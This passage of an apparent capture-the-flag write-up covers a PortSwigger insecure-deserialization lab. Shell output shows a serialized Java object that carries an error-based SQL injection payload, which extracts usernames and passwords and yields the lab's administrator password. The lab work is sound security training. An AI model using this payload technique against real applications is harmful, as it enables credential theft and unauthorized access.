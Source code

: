 ```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 19:24:31
╰─○ javac Main.java   
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 19:24:52
╰─○ java Main         
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Serialized object: rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQAgycgVU5JT04gQUxMIFNFTEVDVCBOVUxMLE5VTEwsTlVMTCxDQVNUKChTRUxFQ1QgdXNlcm5hbWV8fCc6J3x8cGFzc3dvcmQgRlJPTSB1c2VycyBMSU1JVCAxIE9GRlNFVCAyKSBBUyBJTlQpLE5VTEwsTlVMTCxOVUxMLE5VTEwtLSAt
Deserialized id: ' UNION ALL SELECT NULL,NULL,NULL,CAST((SELECT username||':'||password FROM users LIMIT 1 OFFSET 2) AS INT),NULL,NULL,NULL,NULL-- -
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 19:24:53
╰─○ python3 exploit.py
Internal Server Error
java.io.IOException: org.postgresql.util.PSQLException: ERROR: invalid input syntax for type integer: "wiener:peter"
```

- Found `administrator` password: `cx84ygpvjtb4tjokq2sz`

**Let's login as user `administrator`!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-8/images/Pasted%20image%2020230112192554.png)

